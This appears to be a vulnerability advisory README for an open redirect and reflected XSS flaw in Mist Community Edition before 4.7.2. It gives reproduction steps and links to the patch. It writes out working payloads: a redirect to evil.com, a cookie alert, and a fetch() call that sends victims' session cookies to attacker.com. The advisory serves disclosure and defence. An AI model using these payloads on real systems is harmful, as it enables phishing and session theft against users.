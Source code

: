 # Open Redirect Leading to XSS and Malicious Site Redirects

<table>
  <tr>
    <td width="150" rowspan="2">
      <a href="https://github.com/mistio/mist-ce" target="_blank">
        <img src="https://avatars.githubusercontent.com/u/1569127?s=200&v=4" alt="Summer Pearl Logo" width="120"/>
      </a>
    </td>
    <td>
      <h1>Mist Community Edition</h1>
      <h3> An Open-Source Multicloud Management Platform</h3>
    </td>
  </tr>
  <tr>
    <td>
      <table>
        <tr>
          <td>
            🔗 <a href="https://github.com/mistio/mist-ce" target="_blank">Mist Github Repository</span></a>
          </td>
          <td style="padding-left: 15px;">
            🚀 <a href="https://github.com/mistio/mist-ce/releases/tag/v4.7.2" target="_blank"> Patched Version (v4.7.2) </span></a>
          </td>
        </tr>
      </table>
    </td>
  </tr>
</table>


## 📜 Description
Mist Community Edition (CE) versions prior to 4.7.2 fail to properly validate the "return_to" parameter in the authentication system, creating a combined open redirect and reflected cross-site scripting (XSS) vulnerability. An attacker can craft malicious login URLs that, when clicked by a victim, either redirect to arbitrary external domains or execute attacker-controlled JavaScript in the context of the Mist CE application. This vulnerability requires user interaction but can lead to credential phishing, session hijacking, or other client-side attacks depending on the payload delivered through the crafted URL.

## 🔍 Affected Versions

| Status       | Version         |
|--------------|-----------------|
| 🔴 Vulnerable |  ≤ `4.7.1`      |
| 🟢  Fixed     |  &nbsp;&nbsp;`4.7.2`      |   

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **Exploiting Open Redirect for Phishing or Malicious Site Redirects**
By crafting a malicious login URL, an attacker can trick users into authenticating on Mist and then redirect them to an external phishing site designed to steal credentials. The following example demonstrates such an attack:

```
http://example.com/sign-in?return_to=http://evil.com
```

After login, the victim is redirected to `http://evil.com`, where an attacker may host a fake Mist login page to harvest credentials.

### 🔹 **Exploiting Open Redirect for XSS**
The vulnerability also allows for direct **JavaScript execution** via the `return_to` parameter, leading to stored XSS attacks. An attacker can craft a URL that executes arbitrary JavaScript in the victim’s browser:

```
http://example.com/sign-in?return_to=javascript:alert(document.cookie);
```

Upon authentication, this payload triggers an alert displaying the victim’s session cookie.
## 🛠️ Steps to Reproduce

### 1️⃣ Open Redirect Exploit
1. Navigate to Mist’s login page and intercept the request.
2. Modify the `return_to` parameter to point to a malicious site (`http://evil.com`).
3. Send the crafted URL to a victim and persuade them to log in.
4. Upon authentication, they are redirected to the attacker's website.

### 2️⃣ XSS Exploit via Open Redirect
1. Craft a malicious login URL using a JavaScript payload:
   ```
   http://example.com/sign-in?return_to=javascript:fetch('http://attacker.com/cookie/'+document.cookie);
   ```
2. Send the URL to a victim.
3. Upon login, their session cookie is sent to the attacker’s C2 server (`http://attacker.com`).

## 🎬 Demonstration Video

<a href="https://www.youtube.com/watch?v=GLZ9JikmWVE" target="_blank">
  <img src="https://img.youtube.com/vi/GLZ9JikmWVE/maxresdefault.jpg"/>
</a>

## 🧑‍💻 Discovery

This vulnerability was discovered by **Alex Perrakis** (Stolichnayer).

## 🔗 References:
- [Mist CE Github Repository](https://github.com/mistio/mist-ce)
- [Patched Version (v4.7.2)](https://github.com/mistio/mist-ce/releases/tag/v4.7.2)
- [Fix Commit](https://github.com/mistio/mist.api/commit/db10ecb62ac832c1ed4924556d167efb9bc07fad)

